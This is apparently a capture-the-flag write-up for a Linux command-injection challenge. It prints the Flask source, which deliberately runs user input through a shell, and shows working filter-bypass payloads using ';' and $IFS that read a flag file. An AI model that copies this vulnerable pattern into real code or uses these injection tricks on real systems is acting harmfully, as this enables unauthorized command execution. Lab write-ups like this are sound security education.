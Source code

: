 ## Introduction

![](images/image.png)

As the name in the website suggests, This is an RCE challenge, and we have to somehow execute some Linux commands in a way that we can get the flag. 
We have an input field where we can enter some commands, and we have a button to execute them. with a Feminist theme. And most importantly, a link to the source code.

## Analysis

The source code is pretty straightforward, a small backend in Flask:

```python

from flask import Flask, render_template, request, send_file
from subprocess import PIPE, Popen

# create a flask app
app = Flask(__name__)

# this function executes the command. if there is an output, it returns it. otherwise, it returns the error.
def exec(q):
    p = Popen(q, shell=True, stdout=PIPE, stderr=PIPE)
    stdout, stderr = p.communicate()
    if stdout:
        return stdout.decode()
    return stderr.decode()

# this is the index page that we have visited
@app.get("/")
def index():
    return render_template('index.html', output="")

# this is a POST Endpoint that will execute once we click the button
@app.post("/")
def query():
    # our query
    q = request.form['q'] 
    # split the query and add "she" to each word
    q = ["she" + word for word in q.split(' ')] 
    # join the words again, but with no space
    q = ''.join(q)
    # execute the command
    result = exec(q)
    # return the result
    return render_template('index.html', output=result)

# this is the endpoint that returns the source code
@app.get("/code")
def code():
    return send_file(__file__)

```

So simply, if we send the command `ls`,  it will execute `shels` and throws and error.
and if we send the command `cat flag.txt`, it will execute `shecatsheflag.txt` which doesn't make sense to linux as well.
So we have a couple of things to be bypass in this task. First the `she` addition to the beginning, second the space issue.

## Exploitation

### 1. The `she` addition

The first thing to think of in term of linux commands, is the seperators `&&`, `||`, `;`
Which are used to execute multiple commands in one line. So we can bypass the `she` addition by using `||` or `;` to seperate the commands, because `||` will execute if the first command fails, and `;` will execute the second command no matter what. and we should not seperate the commands with space between them.

After we bypassed the `she` addition, we can use the `ls` command to see the files in the directory.

```sh
;ls
# feminist.py requirements.txt run.sh shefiles templates
```

We can see few files out there, with an untypical name `shefiles`. So we can try to read the content of this file.
Yet we have the Space Issue yet to solve..

### 2. The Space Issue

If you can't use a space, you can use something that represents a space. And the first one that comes to mind is `$IFS`, the Internal Field Seperator in Linux. It is used to seperate the fields in a line, and by default its value is a space. So we can use it to seperate the commands.

One thing to note, is that the commands with $IFS will fail, because since there's no spaces, anything after `$IFS` will be appended to the command, resulting to a variable name called `$IFSshefiles` for example, so we have to seperate the variable name from whats next, a way to do so is by using `*`.

```sh
;cat$IFS*shefiles # or cat$IFS* files, since it adds the she to the beginning
# /bin/sh: 1: she: not found cat: shefiles: Is a directory
```

So we can see that the `shefiles` is a directory, and we can try to list its content.

```sh
;ls$IFS*shefiles
# flag.txt
```

So, Let's try to read the flag.

```sh
;cat$IFS*shefiles/flag.txt
# ENIT{th3_best_g0_gir1_moM3nt_1_sAw_waS_in_tHe_boys}
```

## Conclusion
The Challenge is pretty simple and Linux commands are your best friend in this task. I hope you enjoyed reading this writeup, and I hope you learned something new.


## Flag
> ENIT{th3_best_g0_gir1_moM3nt_1_sAw_waS_in_tHe_boys}

I Recommand watching the show. It is top notch.

![](images/feminist.jpeg)
